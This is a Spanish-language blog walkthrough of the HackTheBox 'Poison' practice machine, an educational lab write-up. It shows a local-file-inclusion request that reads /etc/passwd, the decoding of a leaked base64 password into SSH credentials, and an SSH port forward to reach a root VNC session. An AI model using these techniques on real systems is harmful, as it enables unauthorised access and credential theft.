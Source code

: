 ```yaml
---
layout: post
title: "Poison"
subtitle: 'HackTheBox - Medium Machine - Linux'
date: 2020-03-29 12:00:00
author: "TheusZero"
header-img: "images/post/poison/1.png"
catalog: true
comments: true
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# Poison

Es una maquina divertida, tiene varios caminos que te puedes plantear, sin embargo creo que lo mas importante es que
te puede enseñar mucho, en el sentido del **privesec** y de la **enumeracion**.

> Buena maquina, divertida y completa. Mis respetos al creador :D

## Enumeracion

Comence por un nmap simple, para hacer un scaner de puertos.

#### NMAP
```vim
# Nmap 7.70 scan initiated Sat Sep 15 14:45:00 2018 as: nmap -n -vvv -sS -Pn --min-rate 5000 -oA nmap/initial 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up, received user-set (0.073s latency).
Scanned at 2018-09-15 14:45:00 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Sep 15 14:45:00 2018 -- 1 IP address (1 host up) scanned in 0.58 seconds
```

Con esto notamos que, solo tenemos dos vias, explorar el HTTP y entrar por ssh o por alguna reverse shell.

Desde aqui hay varios caminos, sin embargo explicare el que yo realice para lograr hacer la maquina.

#### Web
Ya revisando lo que es la web, podemos ver lo siguiente:

![](/TheusZero/images/post/poison/2.png)

revisando los ***.php** podemos ver que uno de ellos de nombre **listfiles.php** tiene como informacion lo siguiente

> Array
  (
      [0] => .
      [1] => ..
      [2] => browse.php
      [3] => index.php
      [4] => info.php
      [5] => ini.php
      [6] => listfiles.php
      [7] => phpinfo.php
      [8] => pwdbackup.txt
  )

Aquel **pwdbackup.txt** parece mega sospechoso, en el encontramos que nos muestra los archivos de una forma sospechosa tambien.

Lo primero que hice fue cambiar la **URL** mandando la misma peticion del GET pero en la parte de **.php?file=** le pedi que me leyera el archivo **/etc/passwd**:
> **http://10.10.10.84/browse.php?file=/etc/passwd**

como lo crei, me leyo el archivo /etc/passwd y logre revisar que habia un user llamado:
> **charix**

ya con esta informacion me puse a investigar el **pwdbackup.txt** que habia dejado de lado, obteniendo de el lo siguiente:

```vim
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

A simple vista parece un base64 asi que me dispuse a hacer la conversion las 13 veces que pedia.

> **wget http://10.10.10.84/pwdbackup.txt**
>> **tail -n +3 pwdbackup.txt |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d**
>>> **Charix!2#4%6&8(0**

## User
No se me ocurrio otra cosa que hacer, que intentar acceder al ssh con las credenciales obtenidas.
**charix:Charix!2#4%6&8(0**
Con eso logramos entrar y obtener el user.txt

## Root

El root me parecio divertido e interesante, ya que es mucho mas complejo que el user.

Al entrar al home del user, podemos encontrar un archivo llamado **secret.zip** al descomprimirlo es un mensaje ecnriptado o un tipo de passwd que no conozco, asi que me dispuse a enumerar un poco la maquina.
```Python
charix@Poison:~ % netstat -anp tcp | grep -i listen
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN 
```

pense en investigar los puertos 5901 y 5801, pero el camino que recorri fue el del 5901 ya que cache que bajo la maquina corre el siguiente servicio:

```Python
charix@Poison:~ % ps auxww
USER    PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root    545   0.0  0.9  23620  9032 v0- I    15:13    0:00.09 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport
...
```

entrando en mi maquina, hice un [PortForwarding](https://theuszer0.github.io/TheusZero/CheatSheets/#ssh) para abrir el puerto 5901 bajo mi maquina.

#### VNC

el servicio corresponde a un [VNC](https://www.realvnc.com/es/connect/) , que a primera vista parece un xterm y se define como un software de acceso remotO.

asi que, haremos el [PortForwarding](https://theuszer0.github.io/TheusZero/CheatSheets/#ssh)...
```Python
ssh -L 5901:localhost:5901 -N -f -l charix 10.10.10.84
```
ya montado el proceso, usaremos la herramienta vncviewer.
```Python
vncviewer localhost:5901
```
de momento nos pide una password y creo que el **secret.zip** debe tenerla.

#### descargar el .zip

para descargar el .zip ocupe el siguiente comando, todo va incluido
```Python
sshpass -p 'Charix!2#4%6&8(0' scp -oStrictHostKeyChecking=no charix@10.10.10.84:secret.zip .
```
```Python
root@kali:~# cat secret
[|Ֆz!
```
```vim
root@kali:~# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```
la clave esta codificada en algun algoritmo que de principio no debemos tocar, asi que me dispuse a ingresar al VCN con la password.

#### Password VCN
```Python
vncviewer -passwd secret localhost:5901
```
listo, entramos como root y podemos leer el **root.txt**
